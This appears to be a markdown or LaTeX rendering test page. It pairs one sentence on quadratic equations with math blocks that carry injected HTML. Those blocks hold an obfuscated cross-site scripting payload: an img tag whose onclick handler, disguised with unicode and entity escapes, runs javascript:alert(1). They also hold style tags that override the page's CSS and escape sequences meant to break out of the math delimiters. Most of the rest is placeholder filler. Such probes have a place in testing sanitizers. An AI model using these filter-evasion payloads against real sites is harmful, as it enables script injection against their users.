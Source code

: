 \u003E\u003C

When $a \ne 0$, there are two solutions to \(ax^2 + bx + c = 0\) and they are
$$ \u003E\u003C\<a href=# style="position:relative;width:100px;background:#ddffdd;overflow:hidden;">aa</a><img src=m onc\u006Cick=javascript&#x6a;avascript:alert(1)()><style>.pt-3{padding-top: 116px !important;}</style>{}$$

$$ \u003E\u003C\<img class=xlalla src=mmalla id=lkaka style="width:90px">{}$$

<a href=aa.ht style="position:relative;width:100px;background:#ddffdd;overflow:hidden;">mamma</a>

<style>h1{color:blue}</style>
<h1>aa</h1>

$$ \u003E\u003C\<a href=# style="position:relative;width:100px;background:#ddffdd;overflow:hidden;">aa</a><img src=m onc\u006Cick=javascript&#x6a;avascript:alert(1)()><style>div{background-color:#6ccfa5}</style>{}$$
